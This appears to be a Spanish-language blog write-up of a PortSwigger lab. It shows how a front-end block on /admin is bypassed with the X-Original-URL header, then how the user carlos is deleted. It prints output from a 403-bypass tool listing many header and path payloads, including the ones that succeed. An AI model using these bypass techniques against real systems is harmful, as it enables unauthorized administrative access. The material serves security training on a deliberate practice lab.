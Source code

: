 ```yaml
---
title: "URL-based access control can be circumvented"
date: 2024-12-05 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Access Control Vulnerabilities
tags:
  - Access Control Vulnerabilities
  - URL-based access control can be circumvented
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `sitio web` tiene un `panel de administración` no autenticado en `/admin`, pero se ha configurado un sistema de `front-end` para bloquear el acceso externo a esa ruta. Sin embargo, la `aplicación de back-end` está construida sobre un `framework` que soporta el encabezado `X-Original-URL`. Para `resolver` el laboratorio, debemos `acceder` al `panel de administración` y `eliminar` al `usuario carlos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_1.png)

Si pulsamos en `Admin panel` no nos deja acceder y nos muestra un código de estado `403 Access Denied`. Existe una herramienta llamada `bypas-403` [https://github.com/v0rl0x/bypass-403-updated.git](https://github.com/v0rl0x/bypass-403-updated.git), la cual mediante diferentes `headers` intenta `bypassear` este código de estado. Podemos encontrar `payloads` y otras herramientas en `Hacktricks` [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses). Es importante probar con `/admin` y con `admin` debido a que hay varias cabeceras que necesitan una ruta

```
# ./bypass-403.sh https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net /admin
 ____                                  _  _    ___ _____ 
| __ ) _   _ _ __   __ _ ___ ___      | || |  / _ \___ / 
|  _ \| | | | '_ \ / _` / __/ __|_____| || |_| | | ||_ \ 
| |_) | |_| | |_) | (_| \__ \__ \_____|__   _| |_| |__) |
|____/ \__, | .__/ \__,_|___/___/        |_|  \___/____/ 
       |___/|_|                                          
                                               By Iam_J0ker
./bypass-403.sh https://example.com path
 
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/%2e//admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/.
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net///admin//
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/.//admin/./
200,3114  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Original-URL: /admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Custom-IP-Authorization: 127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-For: http://127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-For: 127.0.0.1:80
200,10707  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net -H X-re
write-url: /admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin%20
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin%09
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin?
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.html
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/?anything
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin#
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H Content-Length:0 -X POST
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/*
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.php
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.json
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin  -X TRACE
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Host: 127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin..;/
000,0  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin;/
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -X TRACE
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-Host: 127.0.0.1
Way back machine:
{
  "available": null,
  "url": null
}
```

Si `capturamos` la `petición` y aplicamos la cabecera `X-Original-Url: /admin`

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_2.png)

Hacemos click derecho, pulsamos sobre `Show response in browser` y accedemos a un panel administrativo

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_3.png)

Si intentamos `eliminar` a un `usuario` no nos dejará y nos `redirigirá` a `https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/admin/delete?username=carlos`. Debemos realizar la `petición` de esta forma para poder `eliminar` al usuario `carlos`

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_4.png)
